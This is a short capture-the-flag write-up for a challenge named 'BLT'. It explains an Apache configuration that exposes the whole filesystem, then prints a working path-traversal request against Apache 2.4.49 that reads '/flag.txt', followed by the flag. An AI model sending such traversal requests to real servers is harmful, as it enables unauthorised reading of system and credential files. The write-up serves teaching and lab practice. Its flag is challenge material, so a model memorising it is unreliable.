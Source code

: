 # BLT

## Description

Our company provides services for the development of the most modern software.

Can you check our landing page for vulnerabilities?

Here's our website: **`164.90.201.196:8080/`**

{% file src="../../.gitbook/assets/blt_a559171c04.zip" %}

## Solution

Taking a look at the Dockerfile, we quickly see a misconfiguration in the `apache.conf` file.

```docker
RUN echo "<VirtualHost *:80>\n \
DocumentRoot /var/www/html/\n \
<Directory \"/\">\n \
 Require all granted\n \
</Directory>\n \
</VirtualHost>" > /usr/local/apache2/conf/apache.conf
```

Here, `<Directory />` refers to the _filesystem_ directory, not the web root. Hence, this configuration allows access to any file on the filesystem.

Taking a closer look a the server responses showed that the Apache server is on version 2.4.49, and vulnerable to a recent path traversal zero-day.

![](<../../.gitbook/assets/image (80) (1) (1) (1).png>)

`GET /cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/flag.txt HTTP/1.1` allows us to get the flag at `/flag.txt`.

The flag is `spbctf{th3_lat3st_d03s_n0t_m3an_s3cur3}`
